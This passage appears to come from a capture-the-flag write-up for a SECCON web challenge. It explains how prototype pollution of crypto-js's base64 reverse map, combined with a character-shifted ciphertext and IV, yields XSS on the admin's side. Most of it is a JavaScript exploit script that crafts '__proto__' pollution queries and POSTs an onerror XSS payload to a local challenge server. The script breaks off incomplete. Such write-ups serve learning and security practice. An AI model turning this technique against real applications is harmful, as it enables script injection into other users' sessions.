 But there is just one problem the ciphertext is also base64 decoded our new scheme would also affect the cipher text as well. So here's how we get over this.

Now we can easily bypass this restriction as follows, we can make a cipher text with non ascii characters and since the decoding scheme is defined by us we can extend our custom reverse map to cover these cases as well.
So in theory Key which will be standard base64 would be now 0x00000000000000000, the ciphertext and IV would be generated and each character in it would be shifted by 100 so as to generate non base64 characters, so any base64 character would decode to 0x00000000000000000 and any non base64 character would be decoded according to our custom definition. Hence we can code execution on the admin's side.

Now here is a script which generates the PPOLL exploit and sends the note with our crafted IV and cipher text.
```js
// Credits: satoooon
const CryptoJS = require("crypto-js");
const SECCON_HOST = "localhost"
const WEB_PORT = "3000";

const encryptNote = ({ plaintext, key }) => {
  const keyArray = CryptoJS.enc.Base64.parse(key);
  const ivArray = CryptoJS.lib.WordArray.random(16);
  // const saltArray = CryptoJS.lib.WordArray.random(16);
  const ciphertextArray = CryptoJS.AES.encrypt(plaintext, keyArray, {
    iv: ivArray, 
    // salt: saltArray, 
  }).ciphertext;
  return {
    iv: ivArray.toString(CryptoJS.enc.Base64), 
    ciphertext: ciphertextArray.toString(CryptoJS.enc.Base64), 
  }
}

const exploit = async () => {
  const payload = `<img src=x onerror='alert(1)'>`;
  const key = new CryptoJS.lib.WordArray.init([0, 0, 0, 0]).toString(CryptoJS.enc.Base64);
  const { iv, ciphertext } = encryptNote({key, plaintext: payload});

  const SHIFT_INDEX = 100;
  const craftedCiphertext = [...ciphertext].map((c) => c === "=" ? "" : String.fromCharCode(c.charCodeAt(0) + SHIFT_INDEX)).join("");
  const craftedIv = [...iv].map((c) => c === "=" ? "" : String.fromCharCode(c.charCodeAt(0) + SHIFT_INDEX)).join("");

  const map = [...'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'].map((c) => String.fromCharCode(c.charCodeAt(0) + SHIFT_INDEX)).join("")+"=";
  const reverseMap = {}
  for (var j = 0; j < map.length; j++) {
    reverseMap[map.charCodeAt(j)] = j;
  }

  const queries = Object.entries(reverseMap).map(([k, v]) => `__proto__[_reverseMap][${k}]=${v}`).join("&");

  await fetch(`http://${SECCON_HOST}:${WEB_PORT}/note`, {
    method: "POST", 
    body: JSON.stringify({
      iv: craftedIv, 
      ciphertext: craftedCiphertext
    }), 
    headers: {
      "content-type": "application/json"
    }
  }).then(r => r.json()).then(res => console.log(res));
```
